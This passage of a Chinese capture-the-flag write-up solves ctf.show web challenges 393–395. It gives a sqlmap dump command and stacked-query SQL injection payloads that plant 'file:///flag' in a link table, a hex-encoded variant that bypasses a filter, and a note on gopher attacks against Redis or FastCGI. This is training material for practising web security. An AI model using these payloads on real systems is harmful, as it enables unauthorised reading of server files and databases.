 ```
sqlmap -u "http://808a6a22-0a64-443b-a58c-10ec2673c923.challenge.ctf.show/search.php?title=1" --dbms='mysql' --batch --dump
```



模仿yu师傅的做法
利用堆叠和file://把根目录下的flag内容写到数据库里：

```
/search.php?title=1';1';insert into link values(10,'a','file:///flag');
```

然后访问对应的id即可

![](https://i.loli.net/2021/10/21/ny1EJr4NpReD2Q5.png)

或者像bit师傅：

```
search.php?title=aa';update link set url='file:///flag';select1,2,'a
```

然后随便访问个id，就可得到flag



## 394 过滤，堆叠

> hint：FLAG_NOT_HERE

flag又跑到alsckdfy/check.php里啦，还是可以file://读，但是添加了过滤，可以用十六进制绕过

![](https://i.loli.net/2021/10/21/Qu3xCaFkb69VcBN.png)

```
/search.php?title=1';insert into link values(10,'a',0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870);
```

然后访问`/link.php?id=10`

或

```
1';update link set url=0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870; 
```

然后随便访问个id，就可得到flag

## 395 gopher

同上，也可以像羽师傅的非预期：gopher打redis服务，fastcig

![](https://i.loli.net/2021/10/21/Di2yoOIKWXmUBcV.png)



## 参考文章
